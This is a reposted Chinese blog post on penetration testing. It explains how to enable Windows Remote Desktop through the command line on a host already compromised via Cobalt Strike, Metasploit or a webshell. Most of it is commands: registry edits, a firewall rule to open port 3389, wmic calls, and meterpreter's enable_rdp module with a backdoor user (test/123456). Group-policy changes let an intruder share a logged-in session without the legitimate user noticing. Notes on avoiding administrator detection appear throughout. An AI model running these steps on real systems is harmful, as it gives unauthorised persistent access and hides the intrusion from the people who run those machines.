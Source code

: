 ```yaml
---
layout:     post
title:      命令行开启远程桌面
subtitle:   用命令行开启windows远程桌面功能
date:       2022-07-26
author:     Sprint#51264
header-img: img/post-bg-universe.jpg
catalog: true
tags:
    - 渗透测试
---
```

<!-- TOC -->

- [转载](#%E8%BD%AC%E8%BD%BD)
- [Win远程桌面](#win%E8%BF%9C%E7%A8%8B%E6%A1%8C%E9%9D%A2)
- [命令行](#%E5%91%BD%E4%BB%A4%E8%A1%8C)
- [wmic命令](#wmic%E5%91%BD%E4%BB%A4)
- [MSF命令](#msf%E5%91%BD%E4%BB%A4)
- [多人登录一个账号](#%E5%A4%9A%E4%BA%BA%E7%99%BB%E5%BD%95%E4%B8%80%E4%B8%AA%E8%B4%A6%E5%8F%B7)

<!-- /TOC -->

# 转载

>[命令行开启远程桌面](http://www.hackdig.com/04/hack-330061.htm)

# Win远程桌面

很多情况下，还是远程桌面操作舒服，所以我们可以尝试通过CS、MSF或webshell的命令执行打开主机的远程桌面功能。

* 注意几点

    开启桌面最终结果都是操作注册表，所以需要管理员权限
    并且主机用户是空密码，那就开启不了远程桌面，需要给主机用户添加密码
    3389是win下的远程桌面端口，需要防火墙的允许。

    ```s
     
    netsh advfirewall firewall add rule name="remote Desktop" protocol=TCP dir=in localport=3389 action=allow
    ```


# 命令行

>注册表操作，修改fDenyTSConnections项的值

* 开启远程登录

    ```s
     
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    允许多个用户同时远程登录
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f

    ```

* 关闭远程登录
    
    ```s
     
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    ```

# wmic命令

>也是修改fDenyTSConnections项的值

* 开启远程登录

    ```s
     
    wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
    ```

* 关闭远程登录
    
    ```s
     
    wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0
    ```

# MSF命令

* 在拥有一个会话的前提下，启用远程桌面

    ```s
     
    meterpreter > run post/windows/manage/enable_rdp
    ```

* 创建一个新用户来远程连接桌面
    
    ```s
     
    meterpreter > run post/windows/manage/enable_rdp USERNAME=test PASSWORD=123456
    ```

* 设置远程桌面端口

>有时候主机远程登录端口不是3389，可以查询端口是多少

    ```s
     
    reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
    ```

>有时候主机远程登录端口不是3389，可以修改为3389，也可以改为其他值。但改了端口就容易被管理员发现了

    ```s
     
    reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
    ```

* 查看端口是否开启
    
    ```s
     
    netstat -an|find "3389"
    ```


# 多人登录一个账号

>有时候，远程登录同一个账户会把已存在的会话顶下线，这样不就暴露我们登陆主机了吗
>只针对winserver啊，图形化操作，运行gpedit.msc组策略

找到windows组件–远程桌面服务–远程桌面会话主机–连接

改改几个配置

拒绝将已经登录到控制台会话的管理员注销—启用

限制连接的数量—选择启用，配置‘允许的RD最大连接数’为好几个

将远程桌面服务用户限制到单独的远程桌面服务会话—禁用

管理员权限下更新组策略

`gpupdate /force`

然后就可以远程登录同一个账户了。

或者直接修改注册表

`reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f`

也能达到相同效果

